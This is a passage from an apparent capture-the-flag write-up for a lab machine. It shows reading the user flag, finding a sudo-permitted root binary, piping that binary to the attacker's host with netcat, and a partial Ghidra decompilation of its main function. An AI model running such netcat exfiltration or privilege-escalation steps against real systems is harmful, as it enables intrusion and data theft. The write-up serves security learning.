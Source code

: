 - You can grab the user flag right away:

```bash
cat user.txt 

b01ed0d332a01bd360b03e021b24880e
```

- If you immediately check `sudo -l` you will find an unusual binary:

```bash
sudo -l
Matching Defaults entries for smorton on investigation:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User smorton may run the following commands on investigation:
    (root) NOPASSWD: /usr/bin/binary
```

- Similar to before, since we want to see what is going on with this binary, we are going to send it over to our host machine to attempt and disassemble it:

- On Host:

```bash
nc -lp 10015 > binary
```

- On Victim:

```bash
cat /usr/bin/binary | nc -w 3 10.10.16.9 10015
```

- Fire up `ghidra` and import the binary!
- Check out the main function

![image](https://0xc0rvu5.github.io/docs/assets/images/20230203030624.png)

- Here is the content:

```cpp
undefined8 main(int param_1,long param_2)

{
  __uid_t _Var1;
  int iVar2;
  FILE *__stream;
  undefined8 uVar3;
  char *__s;
  char *__s_00;
  
  if (param_1 != 3) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  _Var1 = getuid();
  if (_Var1 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
  iVar2 = strcmp(*(char **)(param_2 + 0x10),"lDnxUysaQn");
  if (iVar2 != 0) {
    puts("Exiting... ");
                    /* WARNING: Subroutine does not return */
    exit(0);
  }
```